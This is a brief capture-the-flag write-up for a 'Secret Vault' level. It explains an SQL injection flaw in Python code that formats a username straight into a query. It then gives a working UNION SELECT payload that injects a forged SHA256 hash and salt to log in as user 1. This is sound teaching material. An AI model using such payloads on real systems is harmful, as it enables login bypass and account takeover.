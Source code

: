 Level 3 notes (level03)
=======================

Ah yes, the Secret Vault. This Python software is something you don't have the password for, so you need to figure out how you're going to break in from the get-go.

What's the vulnerability?
-------------------------

This code:
```python
    query = """SELECT id, password_hash, salt FROM users
               WHERE username = '{0}' LIMIT 1""".format(username)
```

Instead of using prepared statements, Python's string interpolation is used to insert the username. Oops. This means that there's an SQL injection vulnerability!

How do you exploit it?
----------------------

You submit a username like so:

```
' UNION SELECT 1, '2c93a9e75e05682d26687d2799a47f3f38a138f3a7b31d01a8f9470ace0fc0e9', 'saltysalt' --
```

The 1 indicates that you're logging in with user ID 1, which I presumed would be the user with the level password.
The hex string is the SHA256 hash of "passwordsaltysalt", allowing you to log in with the password 'password'.

Easy.